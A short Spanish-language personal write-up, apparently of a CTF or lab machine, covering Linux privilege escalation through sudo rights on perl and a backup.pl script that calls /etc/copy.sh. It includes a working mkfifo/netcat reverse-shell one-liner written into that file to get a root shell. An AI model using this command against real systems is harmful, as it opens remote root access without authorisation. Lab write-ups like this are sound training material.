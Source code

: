
para escalar privilegios debe volverse costumbre varios pasos 
	1- permisos SUID
	2- ver si el usuario tiene algun permiso de ejecucion como administrador con sudo -l
![[Pasted image 20230911180742.png]]
aqui podemos observar que el usuario itguy tiene permisos en perl y en el archivo backup.pl 
hacemos un cat en backup.pl
![[Pasted image 20230911193659.png]]
vemos que ejecuta un shell sobre la ruta etc/copy.sh vamos a modificar el copy.sh![[Pasted image 20230911194041.png]]
hacemos un echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.76.125 445 >/tmp/f" > /etc/copy.sh esto lo hacemos para "imprimir" el echo dentro del archivo copy.
luego lo que tenemos que hacer es ejecutarlo 
![[Pasted image 20230911194239.png ]]
listo
![[Pasted image 20230911194334.png ]]
ya esta pwneada la maquina Happy hacking!

